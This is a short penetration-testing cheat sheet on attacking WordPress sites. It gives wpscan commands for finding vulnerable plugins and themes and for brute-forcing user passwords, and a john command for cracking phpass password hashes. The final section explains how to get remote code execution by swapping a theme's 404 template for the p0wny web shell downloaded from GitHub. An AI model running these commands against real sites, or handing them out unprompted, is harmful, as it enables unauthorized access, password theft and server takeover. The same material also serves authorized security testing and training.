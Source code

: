 # Wordpress

### Enumerating vulnerable plugins

{% code fullWidth="false" %}
```bash
wpscan --url targethost.com.br --api-token TOKEN --enumerate vp --plugins-detection aggressive
```
{% endcode %}

### Enumerating vulnerables themes

{% code fullWidth="false" %}
```bash
wpscan --url targethostt.com.br --api-token TOKEN --enumerate vt --plugins-detection aggressive
```
{% endcode %}

### Breaking md5 hash (possible wordpress hash) with john

{% code fullWidth="false" %}
```bash
john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt hash
```
{% endcode %}

```bash
# Scan
wpscan --rua -e --url <URL>

# Brute force user(s)
wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"
```

### **Wordpress panel RCE**

```bash
Modifying a php from the theme used (admin credentials needed)

Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
```
